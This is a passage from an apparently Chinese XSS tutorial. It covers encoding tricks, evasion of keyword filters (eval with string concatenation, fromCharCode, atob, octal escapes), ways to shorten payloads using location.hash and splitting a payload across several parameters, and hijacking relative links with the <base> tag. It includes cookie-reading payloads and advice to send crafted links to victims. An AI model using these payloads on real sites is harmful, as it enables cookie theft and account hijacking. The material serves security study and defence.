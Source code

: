 ```<script>\u0061lert(1)</script>```
```<img src=0 onerror="&#92u0061lert(1)">```
与此类似，如果Payload是通过JavaScript伪协议的URL插入的，然后又将它用在HTML标签中，这可以对原始的JavaScript代码先做Unicode编码，再做URL编码，然后做HTML实体编码。
```<a href="javascript:alert(document.cookie)">click me</a>```
如果数据在语意上嵌套多层，就可以使用多层编码来尝试绕过检测。WAF类安全产品很难支持不同场景的嵌套解码。
一些不太完善的防御方案，是通过过滤不安全的函数名，或者检测可以的字符串来做攻击检测的。在JavaScript中可以通过动态构造字符串或者使用八进制编码来绕过静态特征过滤
```
<script>eval('al'+'ert(1)');</script>
<script>window['al'+'ert'](1);</script>
<script>window[String.fromCharCode(97,108,101,114,116)](1);</script>
<script>window[atob("YWxlcnQ=")](1);</script>
<script>top[`al`+`ert`](1);</script>
<script>top['\141\154\145\162\164'](1);</script>
```
### 绕过长度限制
很多时候产生XSS漏洞的地方对变量的长度会有限制。
假如以下代码存在一个XSS漏洞：
`<input value="$var" />`
攻击者可能会构造如下payload：
`?var=""><script>alert(/xss/)</script>`
过长会导致被切割，可以利用事件来减少所需要的字节数：
`?>var="onclick=alert(1)//`
该方法效果有限
一个完整的URL地址的格式为：
`协议://主机:端口/路径名称?搜索条件#hash标识`
如果页面中含有锚点连接，可以使用hash标志指定页面中的锚点标志，该标志以“#”开头
最常用的"藏代码"的地方是"location.hash"。根据HTTP协议，location.hash的内容不会在HTTP请求中发送，所以服务端的Web日志并不会记录location.hash里的内容，从而隐藏攻击者的真是意图。
`?var=" onclick="eval(loaction.hash.substr(1))`
因为location.hash的第一个字符是"#"，所以必须删除第一个字符，因此构造XSS URL为：
`http://example.com/test.php?var="
onclick="eval(location.hash.substr(1))#alert(1)`
`http://localhost/vulnerabilities/xss_r/?name=</pre><script>eval(location.hash.substr(1))</script>#alert(/long long javascript/)`
将该链接发送给受害者，JS代码会根据location.hash.substr(1)来执行#后的代码(反射型XSS)

某些情况下，一个页面中多处变量的值可以通过多个不同的参数控制，如果每个变量都有限制，可以尝试将多个变量拼接成长的Payload。
假设页面中输出3个变量：
```
<input name="name" value="$name">
<input name="email" value="$email">
<input name="phone" value="$phone">
```
通过注释符来“吃掉”页面中已有的其他内容，以保证代码语法正确。
`?name="><script>/*$email=*/alert(document.cookie)/*$phone=*/</script>`
满足三个参数都有值，且不会被分隔到三个标签中,在代码中如下：
```
<input name="name" value="><script>/*">
<input name="email" value="*/alert(document.cookie)/*">
<input name="phone" value="*/</script>">
```
### 使用\<base>标签
\<base>标签并不常用，其作用是定义上的所有使用“相对路径”标签的host地址。
例如在\<img>标签前加入一个\<base>标签：
```
<base href="https://www.google.com"/>
<img src="/intl/en_ALL/images/srpr/logolw.png"/>
```
存在多个base标签时，只有第一个base标签能够有效
相当于将https://www.google.com拼接到/intl/en_ALL/images/srpr/logolw.png前
如果攻击者构造\<base>标签就能够劫持当前页面上所有使用"相对路径"的标签。
防御时，一定要过滤该标签
### window.name的妙用
```